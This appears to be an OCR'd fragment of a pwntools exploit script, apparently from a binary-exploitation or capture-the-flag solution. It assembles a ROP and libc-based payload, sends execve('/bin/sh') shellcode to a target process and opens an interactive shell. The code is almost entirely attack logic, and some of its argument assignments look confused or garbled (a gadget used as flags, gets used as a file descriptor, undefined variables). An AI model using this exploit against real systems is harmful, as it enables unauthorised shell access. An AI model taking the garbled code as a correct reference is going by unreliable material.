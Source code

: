 ```python 
flags  = ret_gadget
fd     = libc_base + libc.sym['gets']
offset = the_mmap64_plus_23_itself

payload = flat(
    addr,
    length,
    prot,
    flags,
    fd,
    offset
)

p.send(payload)

shellcode = asm(
    shellcraft.execve("/bin/sh",0,0)
)

p.sendline(shellcode)
p.sendline('id')
p.interactive()
```


